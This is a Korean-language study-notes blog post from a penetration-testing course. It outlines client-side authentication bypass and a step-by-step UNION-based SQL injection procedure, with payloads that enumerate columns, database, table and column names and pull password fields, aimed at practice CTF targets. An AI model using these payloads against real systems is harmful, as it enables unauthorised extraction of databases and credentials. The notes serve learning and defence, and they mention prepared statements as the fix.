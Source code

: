 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[TIL] 정리"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-20
last_modified_at: 

tags: [TIL]
---
```


클라이언트 측 인증

session을 먼저 삽입하고 페이지 이동

분리
내가 비밀번호를 바꿀 수 있던지
비밀번호를 알아내던지

어떤 방식으로 고민을 해야 하는가?
어떻게 동작하느냐? -> 직접 만들어보기
sql query문 직접 실행해보기
왜 됐는 지 확인하기
1. 문제 원인 찾기
2. 문제 해결하기

하나씩

burp how to modify response

남들의 문제는 원인을 생각하지 마라

https://www.redirhub.com/ko/blog/redirect-types-and-seo-effects-2
https://developer.mozilla.org/ko/docs/Web/HTTP/Redirections

pincode crack 문제 직접 만들어보기
오류 횟수의 제한이 없다
-> 횟수의 제한을 두려면 어떻게 만들어야 하는가?

sql injection
-> prepared statement
1. db를 사용하는 곳
2. 그 데이터가 화면에 나오는가? 안 나오는가?
    1. 게시판
    2. 로그인, 아이디 중복체크 등

웹페이지에 데이터가 나오는 경우에서 데이터를 추출하는 방법
union
join은 안되냐??

order by
출력되는 데이터 정렬할 때 사용
SELECT ~ ORDER BY [COLUMN]

UNION SQL INJECTION
Process
1. sql injection 포인트 찾기
' and '1' = '1
2. column 개수 찾기
' order by 1...n #
3. 출력되는 column 위치 찾기
' union select 1, 2, 3, 4 #
-> select 1, 2, 3, 4가 왜 정상적으로 작동하는 거야???
-> ' union select 1, pass, 3, 4 from member #
4. db 이름 확인
select database()
-> ' union select 1, database(), 3, 4 from member #
5. table 이름 확인
select table_name from information_schema.tables where table_schema = [DB 이름]
-> ' union select 1, table_name, 3, 4 from information_schema.tables where table_schema = [DB 이름] #
6. column 이름 확인
select column_name from information_schema.columns where table_name = [table 이름]
-> ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = [table 이름] #
7. data 추출

과제
1. admin is mine -> 풀이과정 블로그 작성
1. union sql injection 복습
2. doldol 데이터만 출력하기 하나만 나오게
ctf.segfaulthub.com:1020/sqlinjection_2_1.php
3. ctf 문제 풀기
